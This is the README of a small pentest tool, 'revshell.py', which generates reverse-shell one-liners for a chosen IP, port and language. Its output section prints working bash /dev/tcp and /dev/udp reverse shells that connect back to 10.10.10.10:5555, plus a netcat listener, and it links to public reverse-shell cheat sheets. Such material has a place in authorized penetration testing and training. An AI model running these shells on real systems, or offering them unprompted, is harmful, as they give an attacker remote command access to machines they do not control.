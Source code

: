 ## Revshell is a python script that will display multiple reverse shells in different programming langueges

<p>
    These shells were found online from different resources, they will be listed below
<p>

---

## Usage

```powershell
revshell.py -l [local IP] -p [port you want to listen on] -s [the language you want] </br> </br> 
Example: revshell.py -l 10.10.10.10 -p 5555 -s bash 
```

## Output

```powershell
bash -i >& /dev/tcp/10.10.10.10/5555 0>&1

0<&196;exec 196<>/dev/tcp/10.10.10.10/5555; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.10.10.10/5555 0<&1 2>&1

You can use this for UPD

Victim host
sh -i >& /dev/udp/10.10.10.10/5555 0>&1

On your local machine
nc -u -lvp 5555
```
---

## Reverse shell's resources

[pentestmonkey]("https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet")

[Bernardo's Reverse Shell One-Liners]("https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html")

[payloadsallthethings]("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md")

---

<p>
    If you use this script and find it usefull then thank you and please let me know </br>
    if there is anything I can do to make it better. Also if you see something in the </br>
    code that could be done/written better please let me know as well, I am trying </br>
    to get better at my python coding.
</p>
